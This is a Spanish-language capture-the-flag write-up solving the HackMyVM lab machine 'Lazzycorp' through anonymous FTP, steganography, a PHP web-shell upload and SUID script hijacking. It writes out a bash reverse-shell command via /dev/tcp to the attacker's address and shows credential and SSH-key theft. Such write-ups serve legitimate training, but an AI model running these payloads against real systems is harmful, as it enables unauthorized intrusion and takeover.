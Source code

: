 # Lazzycorp - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Lazzycorp** de la
plataforma HackMyVM.\
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos
- Leak de información
- Enumeración de directorios
- Steganografía
- Subida de archivos maliciosos
- Escalada de privilegios con SUID

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.157
```

``` java
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.1.152
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 114      119          4096 Jul 16 12:35 pub
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 46:82:43:4b:ef:e0:b0:50:04:c0:d5:2c:3c:5c:7d:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2hBHERpgM+J9HRllTqtT7svnthPH2aDlbAWWgSYdDMLzWxN6dKwOHyr1Zr1DrRQHFfNb2deeXGDwX8zjVjS/HDAFGMY4/5rI6nvM5WnSX4Rl2SSiMW6BhscZnoOd4OyveGZ10sGPKxJc8Rbt9v6hpJcjq7clD0ALEhJHMQf1>
|   256 52:79:ea:92:35:b4:f2:5d:b9:14:f0:21:1c:eb:2f:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBje/WVSD3o77qSU8lM+VaPHiFGQtc0MJxG30xN+FrrDr91CFD4sWxckAfA2dkOodpdYUlzOEXKUzDrJdGnVfC4=
|   256 98:fa:95:86:04:75:31:39:c6:60:26:9e:26:86:82:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjJ53/CHL8BZslI+w4Uz5VYdWp3ERTgae6o9+0ouFdN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/cms-admin.php /auth-LazyCorp-dev/
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: LazyCorp | Empowering Devs
MAC Address: 08:00:27:DA:33:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Vemos que el puerto FTP permite login anónimo. Dentro del directorio **pub** encontramos una imagen llamada note.jpg:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||33691|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1366786 Jul 16 12:35 note.jpg
226 Directory send OK.
ftp> 
````
Utilizando stegseek conseguimos encontrar credenciales para el usuario dev:

```shell
stegseek note.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "creds.txt".
[i] Extracting to "note.jpg.out".
````
```bash
cat note.jpg.put

Username: dev
Password: d3v3l0pm3nt!nt3rn 
````
Guardamos las credenciales y accedemos al puerto 80, donde encontramos la web:
![alt text](img/lazzycorp001.png)

Al no haber nada funcional, procedemos a enumerar directorios con dirsearch:
```bash
dirsearch -u http://192.168.1.157/
````
```bash
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/alejandro/Escritorio/Maquinas/Lazzycorp/content/reports/http_192.168.1.157/__25-08-25_17-43-12.txt

Target: http://192.168.1.157/

[17:43:12] Starting: 
[17:43:41] 301 -  313B  - /blog  ->  http://192.168.1.157/blog/
[17:43:41] 403 -  278B  - /blog/
[17:44:19] 200 -   55B  - /robots.txt
[17:44:21] 403 -  278B  - /server-status
[17:44:21] 403 -  278B  - /server-status/
[17:44:33] 301 -  316B  - /uploads  ->  http://192.168.1.157/uploads/
[17:44:33] 403 -  278B  - /uploads/

Task Completed
````
```txt
Disallow: /cms-admin.php
Disallow: /auth-lazycorp-dev/
````
Probamos a ver si existía un login.php en /auth-lazycorp-dev/ y reutilizamos las credenciales encontradas:
![alt text](img/lazzycorp003.png)

Logramos entrar y encontramos un sistema de subida de módulos:
![alt text](img/lazzycorp004.png)

Subimos un script **.php** malicioso:
![alt text](img/lazzycorp005.png)

Los archivos se almacenan en /uploads, confirmando la ubicación de nuestra shell:
![alt text](img/lazzycorp006.png)

Nos enviamos una reverse shell:
```bash
nc -lvnp 9001
````
```bash
http://192.168.1.157/auth-lazycorp-dev/uploads/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.152/9001 0>%260"
````
## Escalada de privilegios
El directorio de arvind es accesible con www-data. Conseguimos la clave id_rsa para iniciar sesión por SSH como arvind:
```bash
www-data@arvindlazycorp:/home/arvind/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
````
En el directorio de inicio encontramos un binario SUID llamado reset. Al no poder ver el código fuente, usamos strace:
```powershell
strace ./reset
execve("./reset", ["./reset"], 0x7ffc573063f0 /* 57 vars */) = 0
brk(NULL)                               = 0x55c1ffdac000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f46b376c000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No existe el fichero o el directorio)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=121407, ...}) = 0
mmap(NULL, 121407, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f46b374e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0p\236\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 840, 64) = 840
fstat(3, {st_mode=S_IFREG|0755, st_size=2003408, ...}) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 840, 64) = 840
mmap(NULL, 2055800, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f46b3558000
mmap(0x7f46b3580000, 1462272, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x28000) = 0x7f46b3580000
mmap(0x7f46b36e5000, 352256, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x18d000) = 0x7f46b36e5000
mmap(0x7f46b373b000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e2000) = 0x7f46b373b000
mmap(0x7f46b3741000, 52856, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f46b3741000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f46b3555000
arch_prctl(ARCH_SET_FS, 0x7f46b3555740) = 0
set_tid_address(0x7f46b3555a10)         = 232827
set_robust_list(0x7f46b3555a20, 24)     = 0
rseq(0x7f46b3555680, 0x20, 0, 0x53053053) = 0
mprotect(0x7f46b373b000, 16384, PROT_READ) = 0
mprotect(0x55c1c2b94000, 4096, PROT_READ) = 0
mprotect(0x7f46b37a8000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x7f46b374e000, 121407)          = 0
setuid(0)                               = -1 EPERM (Operación no permitida)
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
mmap(NULL, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_STACK, -1, 0) = 0x7f46b3763000
rt_sigprocmask(SIG_BLOCK, ~[], [CHLD], 8) = 0
clone3({flags=CLONE_VM|CLONE_VFORK|CLONE_CLEAR_SIGHAND, exit_signal=SIGCHLD, stack=0x7f46b3763000, stack_size=0x9000}, 88) = 232828
munmap(0x7f46b3763000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(232828sh: 1: /usr/bin/reset_site.sh: not found
, [{WIFEXITED(s) && WEXITSTATUS(s) == 127}], 0, NULL) = 232828
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=232828, si_uid=1000, si_status=127, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
````
Detectamos que ejecuta /usr/bin/reset_site.sh. Contenido del script:
```bash
#!/bin/bash

echo "[*] Resetting website from backup..."

# Remove current site
rm -rf /var/www/html/*
# Restore from backup
cp -r /opt/backup/* /var/www/html/
# Set correct ownership
chown -R www-data:www-data /var/www/html/

echo "[+] Done resetting."
````
Modificamos el script para obtener una shell root:
```bash
#!/bin/bash

sudo bash
````
Ejecutamos ./reset:
```bash
arvind@arvindlazycorp:~$ ./reset 
root@arvindlazycorp:/home/arvind# id
uid=0(root) gid=0(root) groups=0(root)
root@arvindlazycorp:/home/arvind# 
````

¡Y somos root! 🎉